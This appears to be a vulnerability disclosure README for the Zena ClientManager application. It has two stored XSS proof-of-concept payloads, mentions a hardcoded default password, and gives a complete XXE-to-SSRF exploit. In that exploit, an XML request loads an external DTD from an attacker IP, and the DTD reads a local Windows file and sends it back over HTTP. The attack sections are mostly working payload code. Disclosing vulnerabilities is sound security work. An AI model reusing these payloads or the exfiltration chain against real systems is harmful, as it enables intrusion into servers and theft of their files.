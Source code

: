 # Zena

## Basic payload details and injection points

Zena – ClientManager:
XSS(Cross-Site Scripting):

• Type: Stored XSS – Unauthenticated

• Pages Affected: /zena/index.html

Description: User input field(and probably more fields) on the Zena ClientManager login page allow for
an attacker to submit specially crafted javascript payloads that are persistently stored and executed
when a user on the Zena system navigates to Client Manager logs and shows details for the log.
POC code – placed into the username field on the login page: 

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```

XSS(Cross-Site Scripting):

• Type: Stored XSS
• Pages Affected: /webconfig/index.html requires authentication. the webconfig page has a hardcoded default password.

Description: Certain input fields in the connector creation allow for an attacker to submit specially
crafted arbitrary javascript payloads that are persistently stored and executed when loading the page
POC code - placed into the Name input field:

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```


![image](https://user-images.githubusercontent.com/81385287/171973915-0ff4e8b4-2d39-4558-a794-a7dae6e4935d.png)
![image](https://user-images.githubusercontent.com/81385287/171973946-9073ad46-e200-437a-80f8-5f11669b462a.png)
![image](https://user-images.githubusercontent.com/81385287/171973970-c2f7eefe-4cfe-4a64-ad27-4691324c1952.png)

## Proof of Concept code for XXE to SSRF to Data Exfiltration exploit for asg-zena

CVE-xxxx-xxxxx XXE

CVE-xxxx-xxxxx SSRF

Authors: James Barnett and Jeffrey Green

XXE(XML External Entity) (CWE-611):
• Type: SSRF and Exfiltration
• Pages Affected: /zena.index.html
• Endpoints Affected: oc_main/zenaweb/scheduler/operation
• Description: Several of the ClientManager’s import functions can be abused by manipulating the
XML import data to contain external entity values that can induce the server to perform certain
functions it was not intended to do. Ex. Reading a local file and exfiltrating it over an HTTP
request back to the attacker
Poc code - Request body to zena server:

```

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://52.15.202.214:8080/xxe.dtd">
%sp;
%param1;
%exfil;
]>
<PACKAGE CREATED="2022.02.15 21.49.34" EXCLUDE_PASSWORDS="NO" INCLUDE_AGENT_REFS="NO"
INCLUDE_DEF_REFS="NO" TYPE="4" UID="E311C8FC7118"><ITEMS><ITEM LIST_TYPE="4"
MODIFIED="2022.02.15 21.22.30" NAME="research" UID="A2A9235502DE"/></ITEMS><USERS><USER
MODIFIED="2022.02.15 21.22.30" NAME="research" REFERENCE="NO"
UID="A2A9235502DE"><![CDATA[<USER NAME="research"
PASSWORD="3jkY15nHscTNeexdKq+gVqiMsh1ngexPj4of7xliF3uDjnkTkJw7qq78ruSMvOGat"
UID="A2A9235502DE" LOGIN="research" DOMAIN="EC2AMAZ-57EH5UL" ALLRIGHTS="YES"
ALLAGENTS="YES"><DESCRIPTION></DESCRIPTION><ROLES/></USER>]]></USER></USERS></PACKAGE>
```



External DTD code hosted on attacker server as xxe.dtd:

```

<!ENTITY % data SYSTEM "file:///c:/sensative.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://52.15.202.214:8080/?%data;'>">

```

![image](https://user-images.githubusercontent.com/81385287/171972899-f595ccbc-f45b-4368-8944-f470960ebad9.png)



